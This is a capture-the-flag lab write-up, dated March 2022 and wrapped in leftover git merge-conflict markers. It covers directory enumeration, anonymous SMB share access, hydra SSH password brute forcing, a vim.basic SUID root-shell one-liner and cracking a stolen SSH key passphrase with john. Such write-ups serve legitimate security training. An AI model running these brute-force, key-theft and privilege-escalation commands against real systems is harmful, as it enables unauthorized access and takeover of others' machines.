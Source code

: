 <<<<<<< HEAD
=======
***

Author: dxWiz

Date: 19 Mar 2022

***

# Task 1 Web App Testing and Privilege Escalation

Use the following command to enumerate the url for hidden directory

	gobuster dir -u $IP -w /usr/share/wordlist/dirbuster/diretory-list-2.3-medium.txt

and we found /development/ and two files dev.txt and j.txt, checkout both of the files.

From out initial nmap scan, we know that smb is present in the target, to list the available share, use the following command

	smbclient -L //$IP

then the next steps is to try connecting to the shared folder with the name of Anonymous

	smbclient //$IP/Anonymous -N

After that do and ***ls*** and ***get*** to download the file staff.txt. In the file there is a staff named Jan.

We will then use hydra to brute force jan password with the following command
	
	hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$IP

It is time to ssh into the target with the password obtained and we can start looking for any misconfigured SUID file with the following command

	find / -type f -perm -u=s 2>/dev/null

	/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
	/usr/lib/policykit-1/polkit-agent-helper-1
	/usr/lib/eject/dmcrypt-get-device
	/usr/lib/snapd/snap-confine
	/usr/lib/openssh/ssh-keysign
	/usr/lib/dbus-1.0/dbus-daemon-launch-helper
	/usr/bin/vim.basic
	/usr/bin/pkexec
	/usr/bin/newgrp
	/usr/bin/chfn
	/usr/bin/sudo
	/usr/bin/chsh
	/usr/bin/newgidmap
	/usr/bin/at
	/usr/bin/gpasswd
	/usr/bin/newuidmap
	/usr/bin/passwd
	/bin/su
	/bin/ntfs-3g
	/bin/ping6
	/bin/umount
	/bin/fusermount
	/bin/mount
	/bin/ping


vim.basic looks interesting and by referencing to [GTFObins](https://gtfobins.github.io/) we can do a **PE** with the following command

	/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")' 


With the root access we can then go to kay home directory and read the pass.bak file to get the answer for the last question.

******

There is another way to gain root access without exploiting the misconfigured SUID file which is to get kay's ssh private key from her folder /home/kay/.ssh

We should do this before using the private key

	chmod 600 kay_id_rsa  

When we try to ssh with the following command 

	ssh -i kay_id_rsa kay@10.10.19.202
	Enter passphrase for key 'kay_id_rsa': 

It is asking for a passphrase, let's brute force the passphrase by first doing ssh2joh

	ssh2john kay_id_rsa > ssh2john.txt


It's time to brute force the passphrase of the key with john

	john --wordlist=/usr/share/wordlists/rockyou.txt ssh2john.txt
	
 and then ssh to the target and read the pass.bak file for answer.	
>>>>>>> 5e9fc03ee255660d50caf604b248fa6528e17521
